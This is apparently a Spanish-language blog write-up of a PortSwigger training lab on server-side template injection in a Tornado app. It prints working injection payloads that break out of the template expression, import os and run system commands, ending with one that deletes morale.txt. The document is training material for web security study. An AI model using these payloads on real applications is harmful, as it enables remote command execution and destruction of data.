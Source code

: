 ```yaml
---
title: SSTI Lab 2
date: 2024-11-22 12:26:00 +0800
author: Justice-Reaper
categories:
  - Portswigger
  - SSTI
tags:
  - SSTI
  - Basic server-side template injection (code context)
image:
  path: /assets/img/SSTI-Lab-2/Portswigger.png
---
```


## Skills

- Basic server-side template injection (code context)

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` es `vulnerable` a un `Server Side Template Injection` debido a la forma insegura en que utiliza una `plantilla` de `Tornado`. Para resolver el laboratorio, hay que `revisar` la `documentación` de `Tornado` para descubrir cómo `ejecutar comandos` y luego `eliminar` el archivo `morale.txt` del `directorio` personal de `Carlos`. Podemos `iniciar sesión` en nuestra propia `cuenta` utilizando las siguientes credenciales: `wiener:peter`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SSTI-Lab-2/image_1.png)

Pulsamos en `My account` y nos `logueamos` usando las credenciales `wiener:peter`

![](/assets/img/SSTI-Lab-2/image_2.png)

Al `loguearnos` vemos esto

![](/assets/img/SSTI-Lab-2/image_3.png)

Si nos metemos en cualquier `artículo` veremos que podemos `comentar`

![](/assets/img/SSTI-Lab-2/image_4.png)

En la parte de `My account` cambiamos el `Preferred name`

![](/assets/img/SSTI-Lab-2/image_5.png)

El nombre en el `chat` también `cambia`

![](/assets/img/SSTI-Lab-2/image_6.png)

Si `capturamos` la `petición` de cambio de `nombre` en `Preferred name` vemos que se está `enviando` un `objeto`

![](/assets/img/SSTI-Lab-2/image_7.png)

Hacemos referencia a una `propiedad` del `objeto inexistente`

```
blog-post-author-display=user.NO_EXISTE&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```

Si nos dirigimos a la parte de las `publicaciones` obtendremos un `error` mediante el cual podemos identificar el `template` que se está usando

![](/assets/img/SSTI-Lab-2/image_8.png)

Nos dirigimos a hacktricks [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tornado-python](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tornado-python), probamos los `payload` para esta `plantilla` y vemos que funciona

{% raw %}
```
blog-post-author-display={{7*7}}&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```
{% endraw %}

![](/assets/img/SSTI-Lab-2/image_9.png)

Nos vamos a [https://www.tornadoweb.org/en/stable/guide/templates.html](https://www.tornadoweb.org/en/stable/guide/templates.html) y observamos que los objetos se cargan entre {% raw %} `{{ }}` {% endraw %}

![](/assets/img/SSTI-Lab-2/image_10.png)

`Enviamos` este `payload`

{% raw %}
```
blog-post-author-display=}}{% import os %}{{os.system('whoami')&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```
{% endraw %}

`Obtenemos` este `error`

![](/assets/img/SSTI-Lab-2/image_11.png)

Probamos este `payload` en el que hacemos referencia al `objeto user`

{% raw %}
```
blog-post-author-display=user.name}}{% import os%}{{os.system('ls')&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```
{% endraw %}

Vemos que se ha listado el archivo `morale.txt`

![](/assets/img/SSTI-Lab-2/image_12.png)

`Borramos` el archivo `morale.txt` y `resolvemos` el `laboratorio`

{% raw %}
```
blog-post-author-display=user.name}}{% import os%}{{os.system('rm morale.txt')&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```
{% endraw %}
